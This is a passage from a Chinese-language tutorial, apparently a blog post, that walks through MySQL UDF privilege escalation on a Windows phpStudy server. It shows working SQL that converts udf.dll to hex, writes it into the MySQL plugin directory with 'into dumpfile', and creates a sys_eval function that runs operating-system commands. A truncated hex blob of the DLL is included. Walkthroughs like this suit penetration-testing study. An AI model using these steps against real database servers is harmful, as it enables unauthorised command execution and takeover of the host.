    2. 获得十六进制内容

      * 通过HxD等工具打开udf.dll文件，获取十六进制内容，或通过sql语句获得十六进制内容(在本地或服务器上均可)

        ```sql
        #前一地址为udf.dll文件所在地址，后一路径为要输出的十六进制内容的文件，获得十六进制内容的操作也可直接在本地进行
        select hex(load_file('C:/phpStudy/WWW/udf.dll')) into dumpfile 'C:/phpStudy/WWW/udf.txt';
        ```

        ![十六进制内容](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410300931917.png)

   3. 往我们自定义的表中插入十六进制数据内容

      ```sql
      insert into laffrex values(unhex('这里放入上一步获得的udf.dll的十六进制代码'));
      
      #例如以下形式：
      insert into laffrex values(unhex('4D5A90000300000004000000FFFF0000B800000000000000400000000000000000000000000000000000000000000000000000000000000000000000F80000000E1FBA0E00B409CD21B8014CCD21546869732070726F6772616D2063616E6E6F742062652072756E20696E20444F53206D6F64652E0D0D0A24000000000000004D477BD0092615830926158309261583005E86830B261583005E808308261583005E968307261583005E91830B2615832EE06E8...'));
      ```

      ![插入十六进制内容](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410300933016.png)

   4. 将十六进制内容写入udf3.dll文件中

      ```sql
      select shellcode from laffrex into dumpfile 'c:/phpstudy/MYSQL/lib/plugin/udf3.dll';
      ```

      ![内容写入udf3.dll](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410300933570.png)

4. 根据udf3.dll，创建自定义函数

   1. 根据udf文件内容，选择使用哪个函数

      ![确定使用函数](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410300935258.png)

   2. 确认所使用函数是否存在，若存在，则考虑换另一个函数，或者删除该函数

      ```sql
      #删除函数语句
      DROP FUNCTION sys_eval;
      ```

      ![存在该函数](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410300943383.png)

   3. 创建自定义函数

   ```sql
   create function sys_eval returns string soname 'udf3.dll';
   ```

   ![创建自定义函数](https://minioapi.laffrex.top/laffrex/pictures/2024/10/30/202410300938428.png)
